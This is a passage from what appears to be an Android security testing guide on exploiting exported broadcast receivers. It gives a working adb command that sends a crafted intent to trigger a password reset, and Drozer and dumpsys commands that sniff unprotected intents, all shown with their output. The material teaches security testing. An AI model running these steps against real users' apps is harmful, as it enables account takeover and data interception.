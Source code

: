 ```java
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else {
            System.out.println("Phone number is null");
        }
    }
}
```

As you can see in the source code, this broadcast receiver expects two parameters named `phonenumber` and `newpass`. With this information you can now try to exploit this broadcast receiver by sending events to it using custom values:

```bash
# Send an event with the following properties:
# Action is set to "theBroadcast"
# Parameter "phonenumber" is set to the string "07123456789"
# Parameter "newpass" is set to the string "12345"
$ adb shell am broadcast -a theBroadcast --es phonenumber "07123456789" --es newpass "12345"
Broadcasting: Intent { act=theBroadcast flg=0x400000 (has extras) }
Broadcast completed: result=0
```

This generates the following SMS:

```bash
Updated Password from: SecretPassword@ to: 12345
```

##### Sniffing Intents

If an Android application broadcasts intents without setting a required permission or specifying the destination package, the intents can be monitored by any application that runs on the device.

To register a broadcast receiver to sniff intents, use the Drozer module `app.broadcast.sniff` and specify the action to monitor with the `--action` parameter:

```bash
dz> run app.broadcast.sniff  --action theBroadcast
[*] Broadcast receiver registered to sniff matching intents
[*] Output is updated once a second. Press Control+C to exit.

Action: theBroadcast
Raw: Intent { act=theBroadcast flg=0x10 (has extras) }
Extra: phonenumber=07123456789 (java.lang.String)
Extra: newpass=12345 (java.lang.String)`
```

You can also use the following command to sniff the intents. However, the content of the extras passed will not be displayed:

```bash
$ adb shell dumpsys activity broadcasts | grep "theBroadcast"
BroadcastRecord{fc2f46f u0 theBroadcast} to user 0
Intent { act=theBroadcast flg=0x400010 (has extras) }
BroadcastRecord{7d4f24d u0 theBroadcast} to user 0
Intent { act=theBroadcast flg=0x400010 (has extras) }
45: act=theBroadcast flg=0x400010 (has extras)
46: act=theBroadcast flg=0x400010 (has extras)
121: act=theBroadcast flg=0x400010 (has extras)
144: act=theBroadcast flg=0x400010 (has extras)
```
